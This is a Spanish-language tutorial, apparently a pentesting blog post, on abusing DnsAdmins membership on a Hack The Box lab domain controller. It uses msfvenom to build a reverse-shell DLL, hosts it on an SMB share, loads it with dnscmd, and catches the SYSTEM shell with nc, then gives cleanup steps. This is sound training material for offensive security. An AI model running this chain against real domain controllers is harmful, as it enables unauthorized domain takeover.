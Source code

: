 ```yaml
---
title: Active Directory - Abusando del Grupo DNSAdmins
description: El grupo DNSAdmins permite inyectar una DLL maliciosa que se ejecutará automáticamente al iniciar el servicio.
date: 2024-12-12
categories: [active-directory, dnsadmins]
tags: [grupos-de-usuarios-especiales, escalada-de-privilegios, casos-de-ataques-ad, dnscmd, dll, msfvenom, smbserver]
img_path: /assets/img/abusing-dnsadmins-injecting-dll.png
image: /assets/img/abusing-dnsadmins-injecting-dll.png
---
```


## **Introducción**

Ya hemos publicado varios artículos sobre Active Directory, pero aún quedan muchos más que se irán subiendo próximamente.

Los miembros del grupo *DnsAdmins* tienen acceso a la información *DNS* de la red. El servicio DNS de Windows admite complementos personalizados y puede llamar a funciones de estos para resolver consultas de nombres que no estén dentro del alcance de las zonas DNS locales. El servicio DNS se ejecuta como **`NT AUTHORITY\SYSTEM`**, por lo que la membresía en este grupo podría potencialmente aprovecharse para **escalar privilegios en un Controlador de Dominio** o en una situación donde un servidor separado actúe como servidor DNS del dominio. Es posible usar la utilidad integrada `dnscmd` para especificar la ruta del complemento DLL.

Para poder realizar este escenario, hemos usado la máquina [Resolute](https://app.hackthebox.com/machines/Resolute) de [Hack The Box](https://app.hackthebox.com/), cuya dirección IP es la *10.10.10.169* y el dominio correspondiente es *megabank.local*.

###  **Gráfico del escenario**

Para que podamos visualizarlo de una manera más sencilla, vamos a mostrar un gráfico representativo del escenario que vamos a realizar.

![abusando del grupo dnsadmins grafico representativo.png](/assets/img/abusando-del-grupo-dnsadmins-grafico-representativo.png)

### **Contexto**

Partiremos de la base en la que nos encontramos como el usuario *Ryan*. Este usuario, forma parte del grupo *Contractors* y este grupo a su vez, forma parte de *DnsAdmins*. Entonces, de forma indirecta, estamos dentro del grupo *DnsAdmins* y podemos realizar esta explotación.

## **Manos a la obra**
### **Identificando el grupo DnsAdmins**

Si miramos el grupo al que pertenecemos, observamos que estamos en el grupo *Contractors*.

```powershell
net user ryan
```

![net user ryan grupo contractors.png](/assets/img/net-user-ryan-grupo-contractors.png)

Sin embargo, al ejecutar el comando `whoami /all` aparece que formamos parte del grupo *DnsAdmins*.

```powershell
whoami /groups
```

![whoami groups vemos dnsadmins.png](/assets/img/whoami-groups-vemos-dnsadmins.png)

Esto se debe a que, el grupo *Contractors*, a su vez es miembro del grupo *DnsAdmins*. Esto lo podemos ver con `net localgroup DnsAdmins`.

```powershell
net localgroup DnsAdmins
```

![net localgroup dnsadmins vemos contractors.png](/assets/img/net-localgroup-dnsadmins-vemos-contractors.png)

Para verlo de una manera un poco más visual, podemos hacer uso de BloodHound. Este, nos muestra el "camino" que sigue nuestro usuario hasta llegar al grupo *DnsAdmin*.

![camino de ryan hasta llegar a dnsadmins.png](/assets/img/camino-de-ryan-hasta-llegar-a-dnsadmins.png)

Ser miembro de este grupo, supone una brecha de seguridad bastante grave sobre el *Domain Controler* ya que, tenemos el poder de inyectar una *DLL* maliciosa que se ejecutará al iniciar el servicio *DNS*. Como estamos dentro del grupo *DnsAdmins* tenemos los permisos necesarios como para parar y arrancar el servicio. A la hora del arranque, esta *DLL* que hemos configurado que se ejecute al inicio del mismo, se ejecutará y podremos realizar cualquier tipo de acción maliciosa como el usuario *Administrator*.

### **Abusando del grupo DnsAdmins**

Vamos a verlo de una manera más práctica. Primero, nos crearemos nuestra *DLL* maliciosa con `msfvenom` que se encargue de enviarnos una *Reverse Shell* a nuestra máquina por un puerto especificado. Los parámetros *LHOST* y *LPORT* pueden variar según el caso en el que nos encontremos y nuestras preferencias.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=NUESTRA-IP LPORT=PUERTO -f dll -o malicious.dll
```

![generando dll maliciosa.png](/assets/img/generando-dll-maliciosa.png)

A continuación, desde la máquina víctima estableceremos un nuevo archivo de configuración de una *DLL*. Esta *DLL* se cargará a través de un recurso compartido a nivel de red que, estaremos alojando en nuestra máquina de atacantes en el cual, estará esta *DLL* que hemos generado con `msfvenom`. Cuando la *DLL* se cargue, se ejecutará y nos enviará la consola a nuestra máquina de atacantes.

Como ya hemos comentado en el párrafo anterior, la *DLL* se cargará de un recurso compartido a nivel de red que estaremos alojando en nuestra máquina. Entonces, nos montaremos ese recurso compartido con `smbserver`.

```bash
smbserver.py smbFolder $(pwd) -smb2support
```

![recurso compartido con la dll.png](/assets/img/recurso-compartido-con-la-dll.png)

> Es **importante** tener en cuenta que si ejecutamos el comando anterior, el recurso compartido tendrá el nombre de *smbFolder* el cual, **se alojará en el directorio actual de trabajo**. Es en este directorio, en el que deberá de estar la *DLL* en cuestión.
{: .prompt-warning}

Para establecer el fichero de configuración *DLL*, usaremos [`dnscmd.exe`](https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/) de la siguiente manera.

```powershell
dnscmd.exe /config /serverlevelplugindll \\NUESTRA-IP\smbFolder\malicious.dll
```

En este punto, la *DLL* se cargará directamente desde el recurso compartido con nombre *smbFolder* que estará montado en nuestra máquina de atacantes y cuyo nombre de la *DLL* será `malicious.dll`.

### **Ganando acceso como Administrator**

Ahora, nos pondremos en escucha con `nc` por el puerto que le hemos indicado anteriormente a `msfvenom`. En este caso, el puerto en cuestión es el *443*.

```bash
rlwrap nc -nlvp PUERTO
```

![en escucha por el puerto 443 con rlwrap nc.png](/assets/img/en-escucha-por-el-puerto-443-con-rlwrap-nc.png)

Lo último que nos queda es *parar y arrancar el servicio DNS*. 

```powershell
sc.exe stop dns
sc.exe start dns
```

> Puede que el servicio lo tengamos que parar y arrancar **varias veces para que funcione** e incluso, tener que inyectar de nuevo la *DLL*.
{: .prompt-info}

Una vez arrancado el servicio, habremos obtenido una consola como el usuario administrador del dominio y acceso total al *DC*.

![obteniendo consola como administrador gracias a la dll maliciosa.png](/assets/img/obteniendo-consola-como-administrador-gracias-a-la-dll-maliciosa.png)

De esta manera, habremos comprometido el dominio habiéndonos convertido en el usuario con mayor privilegios.

## **Clean Up**

En la imagen anterior, nos podemos percatar que el servicio DNS **no se ha iniciado correctamente** debido a nuestro registro `ServerLevelPluginDll` que hemos inyectado.

Realizar cambios de configuración y detener/reiniciar el servicio DNS en un **Controlador de Dominio** son acciones muy destructivas y deben llevarse a cabo con mucho cuidado. Como **pentester**, necesitamos consultar a nuestro cliente antes de proceder con este tipo de acción, ya que podría potencialmente afectar el servicio DNS en todo el entorno de **Active Directory** y causar varios problemas. Si nuestro cliente nos da permiso para continuar con el ataque, debemos ser capaces de cubrir nuestras huellas y limpiar después de nuestra intervención, o bien proporcionar a nuestro cliente los pasos necesarios para revertir los cambios realizados.

Los siguientes pasos se deben realizarse desde una consola elevada con una cuenta de administrador local o de dominio.

### **Clave de registro agregada**

El primer paso es confirmar que existe la clave de registro `ServerLevelPluginDll`. Hasta que se elimine nuestra DLL personalizada, no podremos volver a iniciar el servicio DNS correctamente.

```powershell
reg query \\IP-IICTIMA\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
```

Una vez validada la clave de registro que se ha generado, la deberemos de eliminar usar el comando `reg delete` para eliminar la clave que apunta a nuestra DLL personalizada.

```powershell
reg delete \\IP-VICTIMA\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll
```

Una vez hecho esto ya podremos iniciar nuevamente el servicio DNS. Comprobaremos que el servicio está arrancado correctamente.

```powershell
sc query dns
```

## **Despedida**
Muchas gracias por dar una oportunidad a este artículo y espero que hayas adquirido un nuevo superpoder. Grupos de los que se pueden abusar a nivel de *Active Directory* son muchos, y es por ello que hay que tenerlos todos en cuenta.
